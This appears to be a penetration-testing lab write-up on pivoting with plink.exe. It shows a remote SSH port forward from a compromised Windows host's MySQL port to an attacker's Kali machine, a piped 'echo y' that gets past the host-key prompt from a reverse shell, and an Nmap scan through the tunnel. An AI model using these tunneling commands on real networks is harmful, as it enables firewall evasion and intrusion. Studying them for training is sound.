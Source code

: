 ```yaml
---
description: >-
  Plink
title:  Plink             # Add title here
date: 2022-11-13 08:00:00 -0600                           # Change the date to match completion date
categories: [09 Port Redirection and Tunneling, Plink]                     # Change Templates to Writeup
tags: [port redirection and tunneling, plink]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


During the enumeration and information gathering process, we discover a MySQL service running on TCP port 3306.

```powershell
C:\Windows\system32>netstat -anpb TCP
netstat -anpb TCP 

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
 [syncbrs.exe]
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  RpcSs
 [svchost.exe]
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
 Can not obtain ownership information
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING
 [mysqld.exe]
```

We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.

We will transfer [plink.exe](http://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html), a Windows-based command line SSH client (part of the PuTTY project) to the target to overcome this limitation. The program syntax is similar to the UNIX-based ssh client:

```powershell
C:\Tools\port_redirection_and_tunneling> plink.exe
plink.exe
Plink: command-line connection utility
Release 0.70
Usage: plink [options] [user@]host [command]
       ("host" can also be a PuTTY saved session name)
Options:
  -V        print version information and exit
  -pgpfp    print PGP key fingerprints and exit
  -v        show verbose messages
  -load sessname  Load settings from saved session
  -ssh -telnet -rlogin -raw -serial
            force use of a particular protocol
  -P port   connect to specified port
  -l user   connect with specified username
  -batch    disable all interactive prompts
  -proxycmd command
            use 'command' as local proxy
  -sercfg configuration-string (e.g. 19200,8,n,1,X)
            Specify the serial configuration (serial only)
The following options only apply to SSH connections:
  -pw passw login with specified password
  -D [listen-IP:]listen-port
            Dynamic SOCKS-based port forwarding
  -L [listen-IP:]listen-port:host:port
            Forward local port to remote address
  -R [listen-IP:]listen-port:host:port
            Forward remote port to local address
  -X -x     enable / disable X11 forwarding
  -A -a     enable / disable agent forwarding
  -t -T     enable / disable pty allocation
...
```

We can use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306) with the following command:

```powershell
C:\Tools\port_redirection_and_tunneling> plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

The first time plink connects to a host, it will attempt to cache the host key in the registry. If we run the command through an rdesktop connection to the Windows client, we can see this interactive step:

![Plink-sh](/assets/img/Pasted-image-20230503172914.png)

However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:

```powershell
C:\Tools\port_redirection_and_tunneling> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
kali@kali:~$  
```

Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:

```bash
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234

Starting Nmap 7.60 ( https://nmap.org ) at 2019-04-20 05:00 EEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
1234/tcp open  mysql   MySQL 5.5.5-10.1.31-MariaDB

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

The setup seems to be working. We have successfully scanned the Windows 10 machine's SQL service through a remote port forward on our Kali attack machine.